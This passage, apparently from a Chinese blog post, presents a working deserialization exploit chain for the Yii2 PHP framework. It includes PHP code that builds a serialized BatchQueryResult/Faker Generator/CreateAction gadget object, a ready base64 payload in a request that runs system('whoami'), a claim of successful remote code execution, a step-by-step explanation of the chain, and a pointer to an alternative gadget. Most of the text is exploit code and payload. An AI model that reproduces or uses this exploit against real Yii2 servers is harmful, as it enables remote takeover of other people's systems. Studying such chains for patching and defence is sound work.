 ```php
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters["close"] = [new CreateAction, 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```
payload:
```
web?r=test/test&data=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6Njoic3lzdGVtIjtzOjI6ImlkIjtzOjY6Indob2FtaSI7fWk6MTtzOjM6InJ1biI7fX19fQ==
```
成功rce

![在这里插入图片描述](https://img-blog.csdnimg.cn/05f8898ee7b543d9b4383d4d0ef0fbd7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这条链子的总的攻击思路为

```php
1. BatchQueryResult里面__destruct入口函数调用了reset()函数
2. reset()函数内：$this->_dataReader->close();其中_dataReader可控
3. 触发__call方法，找到可利用的call方法：Generator，但是只能执行无参数函数
4. 寻找框架内的可利用的无参数函数，Generator的run
```
这条链子最后一个寻找无参数可利用函数的时候，还有一个可以利用
# POC2
```
vendor/yiisoft/yii2/rest/IndexAction.php
```
